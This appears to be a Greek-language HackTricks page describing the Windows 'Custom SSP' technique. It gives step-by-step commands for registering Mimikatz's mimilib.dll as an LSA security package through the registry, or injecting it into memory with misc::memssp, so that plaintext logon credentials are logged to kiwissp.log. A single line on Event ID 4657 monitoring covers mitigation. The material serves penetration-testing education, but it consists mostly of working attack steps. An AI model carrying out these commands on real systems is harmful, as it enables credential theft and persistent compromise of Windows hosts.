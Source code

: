 # Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[Μάθετε τι είναι ένα SSP (Security Support Provider) εδώ.](../authentication-credentials-uac-and-efs/#security-support-provider-interface-sspi)\
Μπορείτε να δημιουργήσετε το **δικό σας SSP** για να **καταγράψετε** σε **καθαρό κείμενο** τα **διαπιστευτήρια** που χρησιμοποιούνται για την πρόσβαση στη μηχανή.

#### Mimilib

Μπορείτε να χρησιμοποιήσετε το δυαδικό αρχείο `mimilib.dll` που παρέχεται από το Mimikatz. **Αυτό θα καταγράψει σε ένα αρχείο όλα τα διαπιστευτήρια σε καθαρό κείμενο.**\
Ρίξτε το dll στο `C:\Windows\System32\`\
Πάρτε μια λίστα με τα υπάρχοντα LSA Security Packages:
```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
Προσθέστε το `mimilib.dll` στη λίστα Παρόχων Υποστήριξης Ασφαλείας (Security Packages):
```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
Και μετά από μια επανεκκίνηση, όλα τα διαπιστευτήρια μπορούν να βρεθούν σε καθαρό κείμενο στο `C:\Windows\System32\kiwissp.log`

#### Στη μνήμη

Μπορείτε επίσης να το εισάγετε απευθείας στη μνήμη χρησιμοποιώντας το Mimikatz (σημειώστε ότι μπορεί να είναι λίγο ασταθές/μη λειτουργικό):
```powershell
privilege::debug
misc::memssp
```
Αυτό δεν θα επιβιώσει από επανεκκινήσεις.

#### Μετριασμός

Event ID 4657 - Έλεγχος δημιουργίας/αλλαγής του `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

{{#include ../../banners/hacktricks-training.md}}
